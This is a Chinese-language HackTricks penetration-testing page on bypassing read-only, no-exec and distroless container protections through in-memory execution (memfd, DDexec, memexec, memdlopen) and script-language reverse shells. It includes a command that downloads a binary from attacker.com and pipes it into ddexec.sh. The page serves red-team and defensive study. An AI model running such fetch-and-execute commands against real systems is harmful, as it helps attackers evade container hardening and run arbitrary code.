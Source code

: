 # 绕过文件系统保护：只读 / 无执行 / Distroless

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 视频

在以下视频中，您可以找到本页中提到的技术的更深入解释：

* [**DEF CON 31 - 探索Linux内存操作以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用DDexec-ng和内存dlopen()进行隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 只读 / 无执行场景

在Linux机器上发现**只读（ro）文件系统保护**变得越来越常见，特别是在容器中。这是因为在容器中运行只读文件系统只需在`securitycontext`中设置**`readOnlyRootFilesystem: true`**即可：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统以只读方式挂载，**`/dev/shm`**仍然是可写的，因此我们可以在磁盘上写入内容。但是，此文件夹将以**无执行保护**挂载，因此如果您在此处下载二进制文件，则**无法执行**。

{% hint style="warning" %}
从红队的角度来看，这使得下载和执行不在系统中的二进制文件（如后门或枚举器如`kubectl`）变得**复杂**。
{% endhint %}

## 最简单的绕过方法：脚本

请注意，我提到了二进制文件，只要解释器在机器内部，您可以执行任何脚本，比如**shell脚本**（如果存在`sh`）或**Python脚本**（如果安装了`python`）。

然而，这仅仅是不够的，以便执行您的二进制后门或其他可能需要运行的二进制工具。

## 内存绕过

如果您想执行一个二进制文件，但文件系统不允许，那么最好的方法是通过**从内存中执行**，因为**这些保护在内存中不适用**。

### FD + exec系统调用绕过

如果您在机器内部有一些强大的脚本引擎，比如**Python**、**Perl**或**Ruby**，您可以将要执行的二进制文件下载到内存中，将其存储在一个内存文件描述符（`create_memfd`系统调用）中，这不会受到这些保护的保护，然后调用**`exec`系统调用**，指示**fd作为要执行的文件**。

为此，您可以轻松使用项目[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。您可以将二进制文件传递给它，它将生成一个以指定语言编写的脚本，其中包含**使用指令对二进制文件进行解码和解压缩**的二进制文件压缩和b64编码，以及调用`create_memfd`系统调用创建的fd和调用**exec**系统调用来运行它的指令。

{% hint style="warning" %}
这在其他脚本语言（如PHP或Node）中不起作用，因为它们没有任何从脚本中调用原始系统调用的**默认方法**，因此无法调用`create_memfd`来创建**内存fd**以存储二进制文件。

此外，在`/dev/shm`中创建一个**常规fd**并不起作用，因为您将无法运行它，因为**无执行保护**将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)是一种技术，允许您通过覆盖其**`/proc/self/mem`**来**修改自己进程的内存**。

因此，通过**控制进程执行的汇编代码**，您可以编写一个**shellcode**并“变异”进程以**执行任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec**将允许您从**内存**加载和**执行**自己的**shellcode**或**任何二进制文件**。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)是DDexec的自然下一步。它是一个**DDexec shellcode demonised**，因此每次您想要**运行不同的二进制文件**时，您无需重新启动DDexec，只需通过DDexec技术运行memexec shellcode，然后**与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)中找到如何使用**memexec执行来自PHP反向shell的二进制文件**的示例。

### Memdlopen

与DDexec具有类似目的，[**memdlopen**](https://github.com/arget13/memdlopen)技术允许以**更简单的方式**将二进制文件加载到内存中以后执行。甚至可以加载具有依赖关系的二进制文件。

## Distroless Bypass

### 什么是distroless

Distroless容器仅包含运行特定应用程序或服务所需的**最少组件**，例如库和运行时依赖项，但不包括诸如软件包管理器、shell或系统实用程序等较大的组件。

Distroless容器的目标是通过消除不必要的组件**减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向Shell

在distroless容器中，您可能**找不到`sh`或`bash`**以获取常规shell。您也不会找到诸如`ls`、`whoami`、`id`等二进制文件...通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您**将无法**像通常那样获得**反向shell**或**枚举**系统。
{% endhint %}

但是，如果受损的容器例如正在运行flask web，则已安装了python，因此您可以获取**Python反向shell**。如果正在运行node，则可以获取Node反向shell，大多数**脚本语言**也是如此。

{% hint style="success" %}
使用脚本语言，您可以使用语言功能**枚举系统**。
{% endhint %}

如果没有**`read-only/no-exec`**保护，您可以滥用反向shell在文件系统中**写入您的二进制文件**并**执行**它们。

{% hint style="success" %}
但是，在这种类型的容器中，这些保护通常会存在，但您可以使用**先前的内存执行技术来绕过它们**。
{% endhint %}

您可以在[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)中找到如何**利用一些RCE漏洞**获取脚本语言**反向shell**并从内存中执行二进制文件的**示例**。
